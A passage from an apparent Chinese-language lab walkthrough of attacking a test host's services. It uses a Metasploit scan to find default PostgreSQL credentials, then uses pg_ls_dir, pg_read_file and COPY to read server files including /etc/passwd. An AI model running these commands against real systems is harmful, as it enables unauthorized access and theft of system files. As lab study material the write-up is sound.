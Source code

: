 ### <a class="reference-link" name="25%E7%AB%AF%E5%8F%A3(smtp)"></a>25端口(smtp)

在测试时没有测试成功

`nc 192.168.56.150 25`

[![](https://p0.ssl.qhimg.com/t01f4d8df4b40215029.jpg)](https://p0.ssl.qhimg.com/t01f4d8df4b40215029.jpg)

### <a class="reference-link" name="111%E7%AB%AF%E5%8F%A3(nfs,rpcbind)"></a>111端口(nfs,rpcbind)

[![](https://p4.ssl.qhimg.com/t01e97ec9c4afed2dfd.jpg)](https://p4.ssl.qhimg.com/t01e97ec9c4afed2dfd.jpg)

### <a class="reference-link" name="5432%E7%AB%AF%E5%8F%A3(postgresql)"></a>5432端口(postgresql)

第一步msf模块测试一下

use auxiliary/scanner/postgres/postgres_login<br>
set rhosts 192.168.56.150<br>
exploit

[![](https://p0.ssl.qhimg.com/t01b63423248b305c84.jpg)](https://p0.ssl.qhimg.com/t01b63423248b305c84.jpg)

发现账号密码<br>
username: postgres<br>
password: postgres

登录数据库<br>`psql -h 192.168.56.150 -U postgres`

列下目录<br>`select pg_ls_dir('./');`

[![](https://p5.ssl.qhimg.com/t01424d13efad332b41.jpg)](https://p5.ssl.qhimg.com/t01424d13efad332b41.jpg)

读取权限允许的文件

`select pg_read_file('postgresql.conf',0,1000);`

建表,并使用copy从文件写入数据到表

`DROP TABLE if EXISTS MrLee;`<br>`CREATE TABLE MrLee(t TEXT);`<br>`COPY MrLee FROM '/etc/passwd';`<br>`SELECT * FROM MrLee limit 1 offset 0;`

成功读取到了/etc/passwd第一行

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f2709d72d2961cc1.jpg)

直接读出全部数据

`SELECT * FROM MrLee;`

[![](https://p3.ssl.qhimg.com/t019a12dfedc9657fe6.jpg)](https://p3.ssl.qhimg.com/t019a12dfedc9657fe6.jpg)
